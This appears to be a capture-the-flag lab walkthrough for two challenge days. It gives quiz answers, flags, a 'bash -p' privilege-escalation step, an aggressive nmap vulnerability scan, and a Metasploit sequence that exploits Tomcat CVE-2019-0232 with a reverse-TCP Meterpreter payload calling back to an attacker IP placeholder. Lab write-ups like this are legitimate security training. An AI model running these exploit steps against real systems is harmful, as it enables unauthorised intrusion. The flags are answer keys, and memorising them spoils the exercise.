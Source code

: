 > jingle-tunes

---

## *[Day 11] Networking The Rogue Gnome*

- What type of privilege escalation involves using a user account to execute commands as an administrator?

> vertical

- What is the name of the file that contains a list of users who are a part of the sudo group?

> sudoers

- What are the contents of the file located at /root/flag.txt?

privesc: `bash -p`

> thm{2fb10afe933296592}

---

## *[Day 12] Networking Ready, set, elf.*

```bash
$ sudo nmap 10.10.135.25 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

- What is the version number of the web server?

> 9.0.17

- What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

> CVE-2019-0232

- What are the contents of flag1.txt

```bash
$ msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set rhosts 10.10.135.25

$ msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set lhost $ATTACKER_IP_GOES_HERE

$ msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set lport 8080

$ msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set payload windows/meterpreter/reverse_tcp

$ msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set targeturi /cgi-bin/elfwhacker.bat

$ msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit
```

> thm{whacking_all_the_elves}

---
